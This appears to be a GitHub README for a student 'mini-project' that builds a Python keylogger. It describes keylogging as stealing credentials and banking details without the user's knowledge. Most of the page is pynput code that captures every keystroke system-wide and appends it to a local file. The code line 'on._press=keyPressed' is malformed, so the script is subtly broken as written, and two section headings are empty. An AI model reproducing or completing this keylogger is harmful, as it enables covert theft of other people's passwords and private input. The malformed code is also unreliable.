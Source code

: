 # Keylogger-Python &nbsp; <img src="https://github.com/user-attachments/assets/fa080d46-0f3c-4c19-a3fb-6324e1b6cdf5" width="36">

## Background and Significance 
Keylogging is the method of storing key-strokes on a device, particularly without the user knowing. Having a program such as this running on your device will result in the unaware surrendering of confidential data to malicious hackers, including login credentials and banking details.

## Objective
This mini-project aims to create a successful key-logging script, that when executed, will capture keystrokes made by the user in any environment on the device.
## Skills Learned

## Tools/Languages Used
- VSCode
- Python

## Steps & Code
<code>
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on._press=keyPressed) 
    listener.start()
    input()
</code>
## Tips
